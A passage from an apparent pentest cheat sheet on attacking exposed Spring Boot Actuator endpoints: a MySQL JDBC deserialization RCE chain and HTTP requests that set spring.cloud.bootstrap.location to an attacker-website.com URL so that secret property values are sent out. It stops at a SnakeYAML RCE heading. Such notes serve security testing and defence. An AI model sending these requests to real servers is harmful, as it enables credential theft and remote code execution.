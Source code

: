 The exploitaion chain contains the following steps:
- `spring.datasource.url` is set to the external MySQL JDBC URL
- Refresh the configuration
- An application establishes a new DB connection using the malicious MySQL JDBS URL when performing a DB query
- The malicious MySQL server returns a payload at the appropriate stage of establishing the connection
- `mysql-connector-java` deserialize the payload and execute arbitrary code

References:
- [Spring Boot Vulnerability Exploit Check List: mysql jdbc deserialization RCE](https://github.com/LandGrey/SpringBootVulExploit#0x08mysql-jdbc-deserialization-rce)

## spring.cloud.bootstrap.location

`spring.cloud.bootstrap.location` requires the following conditions:

- `/refresh` endpoint is available
- `spring-cloud-starter` version `< 1.3.0.RELEASE`

### Retrieving env properties

You can get `env` property value in plaintext with the next steps:

1. Set the `spring.cloud.bootstrap.location` property:

    ```http
    POST /actuator/env HTTP/1.1
    Content-Type: application/json

    {
        "name": "spring.cloud.bootstrap.location",
        "value": "http://attacker-website.com/?=${your.property.name}"
    }
    ```

2. Refresh the configuration

    ```http
    POST /actuator/refresh HTTP/1.1
    Content-Type: application/json
    ```

3. Retrive the property value from `attacker-website.com` logs

References:
- [Spring Boot Vulnerability Exploit Check List: Obtain the plaintext of the password desensitized by the asterisk (method 3)](https://github.com/LandGrey/SpringBootVulExploit#0x05%E8%8E%B7%E5%8F%96%E8%A2%AB%E6%98%9F%E5%8F%B7%E8%84%B1%E6%95%8F%E7%9A%84%E5%AF%86%E7%A0%81%E7%9A%84%E6%98%8E%E6%96%87-%E6%96%B9%E6%B3%95%E4%B8%89)

### SnakeYML RCE

`spring.cloud.bootstrap.location` allows loading an external config in YAML format. You can gain code execution with the next steps:
